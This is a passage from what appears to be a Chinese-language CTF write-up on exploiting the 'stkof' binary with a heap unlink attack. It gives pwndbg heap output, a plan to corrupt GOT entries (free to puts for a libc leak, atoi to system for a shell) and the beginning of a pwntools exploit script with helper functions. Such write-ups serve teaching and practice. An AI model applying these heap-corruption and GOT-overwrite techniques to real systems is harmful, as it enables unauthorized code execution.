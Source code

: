 但是，比較有意思的是，如果我們是 attach 上去的話，第一個緩衝區分配的大小爲 4096 大小。

```
pwndbg> heap
Top Chunk: 0x1e9b010
Last Remainder: 0

0x1e9a000 PREV_INUSE {
  prev_size = 0,
  size = 4113,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x1e9b010 PREV_INUSE {
  prev_size = 0,
  size = 135153,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

### 基本思路

根據上面分析，我們在前面先分配一個 chunk 來把緩衝區分配完畢，以免影響之後的操作。

由於程序本身沒有 leak，要想執行 system 等函數，我們的首要目的還是先構造 leak，基本思路如下

- 利用 unlink 修改 global[2] 爲 &global[2]-0x18。
- 利用編輯功能修改 global[0] 爲 free@got 地址，同時修改 global[1] 爲puts@got 地址，global[2] 爲 atoi@got 地址。
- 修改 `free@got` 爲 `puts@plt` 的地址，從而當再次調用 `free` 函數時，即可直接調用 puts 函數。這樣就可以泄漏函數內容。
- free global[1]，即泄漏 puts@got 內容，從而知道 system 函數地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 爲 system 函數地址，再次調用時，輸入 /bin/sh 地址即可。

代碼如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')
```